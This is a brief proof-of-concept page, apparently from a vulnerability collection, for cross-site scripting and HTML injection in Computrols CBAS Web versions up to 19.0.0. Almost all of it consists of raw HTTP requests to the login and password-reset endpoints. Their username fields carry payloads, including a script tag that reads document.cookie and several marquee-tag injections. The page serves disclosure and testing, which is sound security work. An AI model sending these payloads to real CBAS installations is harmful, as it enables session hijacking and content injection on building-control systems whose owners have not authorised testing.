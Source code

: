 漏洞影響
--------

Computrols CBAS Web\<=19.0.0

XSS
---

    POST /cbas/index.php?m=auth&a=verifyid HTTP/1.1

    username="><script>confirm(document.cookie)</script>&submit_button=Send+Me+a+New+Password+Via+Email

    POST /cbas/index.php?m=auth&a=login HTTP/1.1

    username="><marquee>htmlinjection</marquee>&password=&challenge=60753c1b5e449de80e21472b5911594d&response=e16371917371b8b70529737813840c62

    GET /cbas/index.php?m=auth&a=login&username="><marquee>my milkshake brings all the boys to the yard.</marquee>&password=damn_right HTTP/1.1